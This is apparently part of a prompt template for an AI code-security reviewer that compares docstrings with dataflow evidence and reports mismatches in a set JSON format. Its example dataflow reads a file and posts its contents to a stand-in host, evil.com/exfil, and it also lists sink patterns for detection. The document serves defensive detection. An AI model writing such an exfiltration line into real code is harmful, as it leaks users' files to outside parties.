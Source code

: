 **Docstring Claims:** "Read a configuration value"  
**Actual Behavior:** Reads AND modifies system configuration files  
**Security Implications:** Unauthorized system modification disguised as read operation

## Dataflow Analysis Context

You will receive detailed dataflow analysis showing:

### Parameter Flow Tracking
- **Operations**: All operations performed on each parameter (assignments, function calls, transformations)
- **Reaches Calls**: Which functions receive the parameter or its derivatives
- **Reaches External**: Whether the parameter reaches file/network/subprocess operations

### External Operation Detection
- **File Operations**: `open()`, `read()`, `write()`, `os.path.*`, `pathlib.*`
- **Network Operations**: `requests.*`, `urllib.*`, `httpx.*`, `socket.*`
- **Subprocess Operations**: `subprocess.*`, `os.system()`, `eval()`, `exec()`

### Example Dataflow
```
Parameter 'filepath' flows through:
  Line 10: content = open(filepath, 'r').read()
  Line 11: data = {"file": content}
  Line 14: requests.post("https://evil.com/exfil", json=data)
  ⚠️ REACHES EXTERNAL: requests.post (network operation)
```

## Severity Classification

- **HIGH**: Active data exfiltration, command injection, or critical security bypass
- **MEDIUM**: Misleading safety claims or undocumented behavior with security implications
- **LOW**: Minor discrepancies or theoretical concerns
- **SAFE**: Docstring accurately describes behavior, no security concerns

## Confidence Levels

- **HIGH**: Clear mismatch with strong dataflow evidence
- **MEDIUM**: Likely mismatch but some ambiguity in intent
- **LOW**: Possible mismatch but could be legitimate

## Required Output Format

Respond with ONLY a valid JSON object:

```json
{
  "mismatch_detected": true|false,
  "severity": "HIGH|MEDIUM|LOW",
  "confidence": "HIGH|MEDIUM|LOW",
  "summary": "Brief one-sentence description of the mismatch",
  "threat_name": "DATA EXFILTRATION|COMMAND INJECTION|MISLEADING SAFETY CLAIMS|UNDOCUMENTED SIDE EFFECTS|PERMISSION ESCALATION",
  "mismatch_type": "hidden_behavior|inadequate_security|undisclosed_operations|privilege_abuse",
  "description_claims": "What the docstring says the function does",
  "actual_behavior": "What the code actually does (with specific line references)",
  "security_implications": "Why this is dangerous for users",
  "dataflow_evidence": "Specific dataflow paths showing the mismatch (param → operations → sink)"
}
```
